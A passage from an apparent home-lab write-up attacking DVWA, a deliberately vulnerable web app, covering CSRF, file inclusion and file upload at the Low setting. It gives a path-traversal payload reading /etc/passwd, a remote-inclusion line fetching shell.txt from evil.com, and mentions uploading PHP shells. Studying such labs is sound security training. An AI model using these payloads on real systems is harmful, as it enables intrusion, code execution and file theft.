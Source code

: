 **Thought Process**  
- At **Low** security, DVWA doesn’t require or verify a CSRF token, meaning any request can be submitted from anywhere.
- To confirm it’s vulnerable, I can just replicate the request in my browser or a different tab, and watch it succeed without a valid token.

---

### 4. File Inclusion

**What is it?**  
File Inclusion vulnerabilities happen when a web application includes or displays files based on user input. Typically, this is either a **Local File Inclusion (LFI)** or **Remote File Inclusion (RFI)**.

#### Exploitation Steps

1. **Basic Navigation**  
   - The page lets me select or provide a filename parameter like `?page=include.php`.
   - At **Low** level, it does not sanitize the `page` parameter. The server allows local file paths, I could do:
     ```bash
        http://192.168.60.128/vulnerabilities/fi/?page=../../../../../etc/passwd
     ```
   - 

![basic File Inclusion example](/assets/img/Home%20Lab/DVWA/DVWA%20Low/fi-dvwa-low.png)

2. **Remote File Inclusion**  
   - If `allow_url_include` is enabled (it is not in our case), I could do something like:
     ```bash
     ?page=http://evil.com/shell.txt
     ```
   - The server might parse my remote malicious file as PHP, leading to remote code execution.

**Thought Process**  
- Check if the parameter is a file path that I can manipulate.
- Try common local system files (`/etc/passwd`, `C:\boot.ini` on Windows).
- If remote inclusion is possible, host a malicious script and reference it.

---

### 5. File Upload

**Location**: `File Upload` in the left menu.

**What is it?**  
Allows I to upload files. At **Low** level, DVWA often doesn’t check the file extension or content type, enabling I to upload **.php** shells or other malicious files.
